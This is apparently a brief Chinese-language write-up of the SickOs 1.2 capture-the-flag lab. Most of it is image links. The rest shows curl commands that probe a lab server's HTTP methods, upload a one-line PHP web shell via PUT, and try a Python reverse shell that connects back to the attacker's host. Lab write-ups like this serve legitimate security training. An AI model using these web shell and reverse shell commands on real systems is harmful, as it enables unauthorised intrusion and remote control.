










# SickOs1.2









test打开是目录，先看看是否能put





也可以用curl确认

```bash
curl -v -X OPTIONS http://10.10.10.137/test/
```



```bash
 curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.10.10.137/test/evil.php
```





用一句话，但是没有得到shell

```bash
http://10.10.10.137/test/evil.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

尝试使用wget吧php rshell 上传过去以获得shell





